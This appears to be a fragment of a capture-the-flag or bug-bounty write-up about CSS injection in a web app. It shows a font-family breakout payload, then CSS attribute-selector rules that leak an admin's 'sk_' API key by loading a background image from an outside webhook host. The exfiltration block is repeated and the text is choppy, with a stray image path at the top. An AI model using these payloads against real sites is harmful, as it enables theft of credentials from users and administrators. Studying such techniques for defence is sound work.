 ```css
sans-serif'; background: url(https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif);'/*
```

**✅ Worked successfully.**

![image.png](image.png)

### Stealing API Keys
Now let's use it to steal the admin's API key.

API key format observed: `sk_RANDOM`.  
With CSS injection, I could inject a full `<div>` like this.
We used CSS selectors to exfiltrate:

```css
div[data-internal-api-key^="sk_"] {
    background: url("https://webhook.com/leak?c=sk_");
}
```

```css
sans-serif'; div {
    background-image: url('https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif');
}
```

When I tested uploading with strip-metadata, I found my own API key looked like:

`X-API-Key: sk_yd07fdpwif` → so the format is `sk_RANDOM`.

We can extract it with:

```css
div[data-internal-api-key^="sk_"] {
    background: url("https://webhook.com/leak?c=sk_");
}
```
